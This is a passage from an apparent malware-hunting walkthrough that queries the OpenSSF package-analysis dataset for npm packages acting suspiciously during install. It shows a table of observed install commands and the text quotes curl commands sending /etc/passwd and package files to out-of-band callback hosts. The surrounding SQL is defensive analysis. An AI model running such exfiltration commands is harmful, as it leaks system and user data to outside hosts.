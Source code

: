<tr><td>ysb-ui-services</td><td>3.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>ysb-ui-services</td><td>3.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ysb-ui-services</td><td>3.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ysb-ui-services</td><td>4.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>ysb-ui-services</td><td>4.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>ysb-ui-services</td><td>4.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ysb-ui-services</td><td>4.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>zara-mkt-core</td><td>1.0.0</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --header X-Origin-IP: 172.16.16.96 a390a2d55c32.sfbdsd25uq668574h501430r0i69u3is.oastify.com</code></td></tr>
<tr><td>zara-mkt-core</td><td>9.9.1</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --header X-Origin-IP: 172.16.16.14 --data @/app/node_modules/zara-mkt-core/filetemp101.txt e5604348176e.sfbdsd25uq668574h501430r0i69u3is.oastify.com</code></td></tr>
</table>



We see `puppeteer-example@0.1.5` invokes the command `/usr/bin/curl --data @/etc/passwd af54b23955a1cm31san2vtc000046akggkbohioyyyyyb.oast.fun`.
Let's see if we can identify the read of `/etc/passwd` and find other packages that do the same:

```sql
SELECT
  Files
FROM
  `ossf-malware-analysis.packages.analysis` AS T,
  T.Analysis.install.Files as Files
WHERE
  Package.Ecosystem = "npm"
  AND TIMESTAMP_TRUNC(CreatedTimestamp, MONTH) = TIMESTAMP("2023-09-01")
  AND Package.Name = "puppeteer-example"
  AND Package.Version = "0.1.5"
  AND Files.Read = true
;
```

Unfortunately, it seems that reading from `/etc/passwd` is a common operation during installation, perhaps as the sandbox reads its current environment or other typical NPM processes initialize themselves.


Lets explore the files that are written to during installation:

```sql
SELECT
  T.Package.Name,
  T.Package.Version,
  Files
FROM
  `ossf-malware-analysis.packages.analysis` AS T,
  T.Analysis.install.Files as Files
WHERE
  Package.Ecosystem = "npm"
  AND TIMESTAMP_TRUNC(CreatedTimestamp, MONTH) = TIMESTAMP("2023-09-01")
  AND Files.Write = true
  AND Files.Path NOT LIKE "/app/%"
  AND Files.Path NOT LIKE "/root/.npm/%"
  AND Files.Path NOT LIKE "/root/.cache/%"
  AND Files.Path NOT LIKE "/root/.node-gyp/%"
  AND Files.Path NOT LIKE "/tmp/%"
  AND Files.Path NOT LIKE "/usr/local/cargo/%"
```